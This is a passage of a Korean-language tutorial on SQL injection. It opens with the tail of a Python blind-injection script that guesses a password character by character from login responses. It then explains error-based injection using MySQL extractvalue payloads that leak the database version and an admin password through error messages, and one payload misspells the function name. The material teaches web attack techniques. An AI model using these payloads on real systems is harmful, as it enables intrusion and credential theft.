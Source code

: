 ```py
    for ch in tc:
        params['uid'] = query.format(idx=idx, val=ord(ch)).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        if c.text.find("Login success") != -1:
            password += chr(ch)
            break
print(f"Password is {password}")
```

<br>

* ### 해당 코드는 비밀번호에 들어갈 수 있는 값인 숫자,문자,특수문자를 각 자릿수에 한 번씩 보내서 결괏값이 True인 경우(Login success) 최종 비밀번호에 해당 값을 추가한다.

<br><br>

<br>


- - -



<br>

## **Error Based SQL Injection**

<br>

* ### Error Based SQL Injection은 임의로 에러를 발생시켜 DB및 운영체제의 정보를 획득하는 공격 기법이다.

<br>

* ### 무언가 잘못된 입력을 했을 때, 에러가 발생 시 에러 메세지 등이 노출되는 경우가 있다. 이때, 에러메세지에 중요한 정보가 나오게 하는 함수가 있다.

<br>

```sql
SELECT estractvalue(1,concat(0x3a,version()));

ERROR 1105 (HY000)  XPATH syntax error: '5.7.29-0ubuntu0.16.04.1-log'

```

* ### 위와 같이 extractvalue 함수는 첫 번째 인자로 전달된 XML 데이터에서 두 번쨰 인자인 XPATH 식을 통해 데이터를 추출하는데, 만약 두 번째 인자가 올바르지 않은 XPATH 식일 경우 잘못된 XPATH 식이라는 에러 메시지와 함께 잘못된 식을 출력한다. 여기서, XPATH식에 삽입한 중요정보가 실행되면서 에러 메세지에 중요 정보가 포함된다.

<br>

```sql
-- Extractvalue 응용
SELECT extractvalue(1,concat(0x3a,(SELECT password from users where username='admin')));
--concat 0x3a는 없어도 되며, 최대 16글자까지 밖에 출력이 안되는데, 전체 정보를 알고 싶을 시 substr함수를 이용해 알아내 수 있다.
ERROR 1105 (HY000)  XPATH syntax error: ':Th1s_1s_admin_PASSW@RD'
```

<br>
